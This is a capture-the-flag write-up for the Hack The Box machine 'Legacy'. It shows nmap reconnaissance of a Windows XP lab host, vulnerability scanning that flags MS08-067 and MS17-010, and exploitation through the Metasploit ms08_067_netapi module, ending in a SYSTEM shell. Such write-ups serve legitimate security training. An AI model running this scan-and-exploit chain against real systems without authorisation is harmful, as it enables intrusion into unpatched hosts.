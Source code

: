 ```yaml
---
title: "Legacy - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Legacy
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Legacy
![](https://kar0nx.github.io/assets/images/writeup/60dc190c4c015cfe3a3aef9b5afca254.webp)
 
## Reconnaissance

IP: 10.10.10.4
### NMAP

```
nmap -T4 -p- -A 10.10.10.4
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 07:37 EST
Nmap scan report for 10.10.10.4
Host is up (0.032s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/19%OT=135%CT=1%CU=39006%PV=Y%DS=2%DC=T%G=Y%TM=67B
OS:5D0B1%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S
OS:%TS=0)OPS(O1=M53CNW0NNT00NNS%O2=M53CNW0NNT00NNS%O3=M53CNW0NNT00%O4=M53CN
OS:W0NNT00NNS%O5=M53CNW0NNT00NNS%O6=M53CNNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF
OS:0%W4=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M53CNW0NNS%CC=N%Q=)
OS:T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=N%T=80%W=
OS:0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T
OS:6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=B
OS:0%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:6d:f7 (VMware)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2025-02-24T16:36:24+02:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 5d00h58m25s, deviation: 1h24m50s, median: 4d23h58m25s

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   30.76 ms 10.10.14.1
2   31.49 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.52 seconds

```

Nmap shows open ports SMB/NetBios (139/445) and Remote Procedure Call on port (135)
## SMB

Let's check for shares on smb port 445:
```
smbclient -L //10.10.10.4
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219134135.png)
Null Auth via smbclient

let's check for vulnerabilities via nmap script

```
nmap -p 445 -script vuln 10.10.10.4 
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 07:42 EST
Nmap scan report for 10.10.10.4
Host is up (0.032s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-054: false
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 24.37 seconds
```

It looks like this box is vulnerable to two infamous SMB exploits, MS-08-067 (made famous by Conficker) and MS-17-010 (made famous by Shadow Brokers).

We want to check os version, so let's user msfconsole

```
use scanner/smb/smb_version
```

![](https://kar0nx.github.io/assets/images/writeup/image (1).png)
smb_version shows that target is running Windows XP SP3
## Gaining Access

Based on findings I use ms08_067_netapi via Metasploit
https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219135953.png)

```
C:\Users>whoami
whoami
nt authority\system
```

We got a shell, now capture the flags.